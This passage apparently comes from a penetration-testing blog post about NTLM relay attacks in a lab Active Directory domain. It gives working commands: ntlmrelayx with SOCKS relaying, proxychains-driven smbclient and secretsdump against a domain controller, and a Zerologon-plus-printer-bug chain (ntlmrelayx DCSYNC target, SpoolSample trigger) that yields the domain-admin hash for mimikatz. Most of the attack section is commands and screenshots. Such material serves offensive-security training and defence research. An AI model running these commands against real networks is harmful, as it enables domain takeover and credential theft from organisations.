 ntlmrelayx.py -tf targets.txt -smb2support -socks
```  

See them connections rolling in:  

<img src="/images/2021-02-02/socksmany.png">  

You can now proceed as described above.  

#### smbclient  

```
proxychains smbclient.py MCAFEELAB/DC2016-2\$@10.55.0.100
```  

Jepp you are right, special characters like ```$``` need to be properly escaped with a ```\```.  

<img src="/images/2021-02-02/smbclient.png">  

#### secretsdump.py  

```
proxychains secretsdump.py MCAFEELAB/DC2016-2\$@10.55.0.100
```  

<img src="/images/2021-02-02/secretsdumppy.png">  

You get the point here...

### Zero Logon

Yeah that is still a problem, although the more recent systems are about to get a forced update to fix this this month. My personal opinion is that we will see this for longer on internal pentests.  

However Dirk-jan did an outstanding job when he came up with an attack vector for this vulnerability which didn´t rely on resetting or zeroing the DC´s computer account password -> read [here](https://dirkjanm.io/a-different-way-of-abusing-zerologon/).   

We can again use ntlmrelay to carry out the attack. All we need to have is:  
1. 2 DCs  
2. One DC vulnerable to Zerologon the other one to the printer bug  

Check if DCs are vulnerable with [this](https://github.com/BC-SECURITY/Invoke-ZeroLogon):  

<img src="/images/2021-02-02/checkzerologon.png">  

Now we can fire up ntlmrelay with the ```DCSYNC``` option:  

```
ntlmrelayx.py -t DCSYNC://10.55.0.1 -smb2support
```  

And trigger the printer bug on the other DC:  

```
.\SpoolSample_v4.5_x64..exe dc2016-2.mcafeelab.local 10.55.0.30
```  

<img src="/images/2021-02-02/jokermeme.png" width="500"/>  

Dom-Admin hash which we can use together with mimikatz to do a dcsync or all the other dirty things.  

<img src="/images/2021-02-02/zeropwn.png">  

```